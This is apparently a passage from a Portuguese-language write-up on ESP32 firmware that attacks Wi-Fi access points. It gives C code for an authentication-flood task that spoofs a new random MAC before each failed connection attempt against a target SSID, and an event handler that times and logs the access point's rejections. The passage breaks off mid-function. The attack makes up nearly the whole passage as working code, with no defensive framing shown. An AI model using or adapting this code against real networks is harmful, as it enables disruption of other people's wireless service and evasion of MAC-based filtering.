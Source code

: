 #### 3.3 Tentativas de Autenticação Massivas
```c
static void auth_flood_task(void *pvParameters) {
    uint8_t random_mac[6];
    wifi_config_t wifi_config = {0};
    
    // Configuração base do ataque
    strcpy((char*)wifi_config.sta.ssid, TARGET_SSID);
    strcpy((char*)wifi_config.sta.password, TARGET_PASS);  // Senha errada
    
    while (auth_attempts < MAX_AUTH_ATTEMPTS && keep_flooding) {
        // Gerar novo MAC para cada tentativa
        generate_random_mac(random_mac);
        esp_wifi_set_mac(WIFI_IF_STA, random_mac);
        
        // Configurar e tentar conectar
        esp_wifi_set_config(WIFI_IF_STA, &wifi_config);
        
        ESP_LOGI(TAG, "🔥 Tentativa #%d com MAC: " MACSTR, 
                 auth_attempts + 1, MAC2STR(random_mac));
        
        esp_err_t result = esp_wifi_connect();
        log_auth_attempt(result, random_mac);
        
        auth_attempts++;
        
        // Intervalo entre tentativas
        vTaskDelay(pdMS_TO_TICKS(AUTH_FLOOD_INTERVAL_MS));
        
        // Mostrar estatísticas periodicamente
        if (auth_attempts % 10 == 0) {
            show_auth_flood_stats();
        }
    }
    
    ESP_LOGW(TAG, "✅ Auth flood concluído: %d tentativas", auth_attempts);
}
```

#### 3.4 Monitoramento de Respostas
```c
static void wifi_event_handler(void* arg, esp_event_base_t event_base,
                               int32_t event_id, void* event_data) {
    static uint32_t attempt_start_time = 0;
    
    switch (event_id) {
        case WIFI_EVENT_STA_START:
            attempt_start_time = xTaskGetTickCount() * portTICK_PERIOD_MS;
            ESP_LOGD(TAG, "🔥 Tentativa de autenticação iniciada");
            break;
            
        case WIFI_EVENT_STA_DISCONNECTED: {
            wifi_event_sta_disconnected_t* event = 
                (wifi_event_sta_disconnected_t*) event_data;
            
            uint32_t response_time = 
                (xTaskGetTickCount() * portTICK_PERIOD_MS) - attempt_start_time;
            
            auth_failures++;
            update_response_time_stats(response_time);
            
            ESP_LOGW(TAG, "❌ Falha #%d - Motivo: %d, Tempo: %dms", 
                     auth_attempts, event->reason, response_time);
            
```